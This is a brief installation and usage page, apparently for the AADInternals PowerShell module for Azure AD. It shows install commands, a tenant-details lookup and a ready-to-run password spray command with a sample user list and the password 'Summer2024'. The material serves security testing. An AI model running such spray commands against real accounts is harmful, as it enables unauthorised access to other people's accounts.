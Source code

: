 # Install

## **Installation and Usage**

The following provides instructions for install and simple commands for usage.

{% hint style="info" %}
**Pre-requisites**: PowerShell 7.x or later.
{% endhint %}

### **Installation Instructions**

```powershell
Install-Module AADInternals
Import-Module AADInternals
```

### **Example Commands**&#x20;

&#x20;**Retrieving Tenant details**

```powershell
Get-AADIntTenantDetails
```

**Generate a Password Spray Attack**:

```powershell
Invoke-AADIntPasswordSpray -UserList users.txt -Password Summer2024
```
